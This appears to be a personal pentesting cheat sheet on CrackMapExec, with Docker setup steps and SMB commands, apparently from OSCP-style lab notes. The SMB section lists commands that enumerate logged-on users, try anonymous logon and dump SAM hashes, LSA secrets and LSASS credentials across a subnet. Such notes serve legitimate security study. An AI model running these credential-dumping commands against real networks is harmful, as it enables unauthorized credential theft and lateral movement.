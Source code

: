 ## CrackMapExec

I tried playing around with this on Win10/7 and I couldn't get it to dump any creds.  I may come back to it one day.

### Docker Installation

```bash
sudo docker pull byt3bl33d3r/crackmapexec
```

Set up a named instance of the container:

```bash
sudo docker run -it --entrypoint=/bin/bash --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

Executing the above command will bring you to a prompt inside your docker container.

### Starting the Docker Container

After the initial setup of a named instance of the container, you can restart it using the following commands:

```bash
sudo docker start crackmapexec
sudo docker exec -it crackmapexec /bin/bash
```

### Useful Commands

```bash
# Show Help
cme -h
```

#### SMB

```bash
# Show logged on users
cme smb 192.168.229.130 -u coyote -p oscp --loggedon-users

# Anonymous logon (make sure password is empty)
cme smb 10.10.10.178 -u 'a' -p ''

# Dump SAM hashes using local account
cme smb 192.168.229.130 -u coyote -p oscp --local-auth --sam

# Dump LSA 
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# Dump LSASS
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' -M lsassy
```



### Documentation

https://mpgn.gitbook.io/crackmapexec/getting-started/selecting-and-using-a-protocol

https://github.com/byt3bl33d3r/CrackMapExec/wiki/